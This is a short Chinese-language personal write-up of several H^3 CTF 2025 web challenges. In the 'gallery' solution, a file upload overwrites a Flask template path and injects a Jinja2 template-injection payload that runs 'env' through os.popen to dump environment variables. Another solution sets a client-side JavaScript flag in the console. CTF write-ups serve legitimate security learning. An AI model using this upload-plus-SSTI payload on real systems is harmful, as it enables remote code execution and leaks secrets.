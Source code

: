 ```yaml
---
title: 2025年H^3 CTF赛个人WriteUp
typora-root-url: h3ctf2025-writeup
date: 2025-10-16 00:00:00
tags:
- re
- misc
- web 
- h^3
- 2025
- wp
- writeup
categories: Writeup
---
```


# 2025年H^3 CTF赛个人WriteUp

*注：本文包含大量AI辅助创作*

## Web

### gallery

本题后端为flask，不能传php，根据AI提示，可以替换模板文件造成任意代码执行。

根据附件：

![image-20251014192021359](image-20251014192021359.png)

可知模板文件的绝对路径为/app/templates/index.html

```plaintext
Content-Disposition: form-data; name="file"; filename="/app/templates/index.html"
Content-Type: image/bmp

{{ config.__class__.__init__.__globals__['os'].popen('env').read() }}
```

修改上传内容如上，随后刷新，得到flag

### kill the king

js中搜索flag关键字，找到如下内容：

![image-20251014192835440](image-20251014192835440.png)

控制台中输入

```javascript
_this.boss = true
```
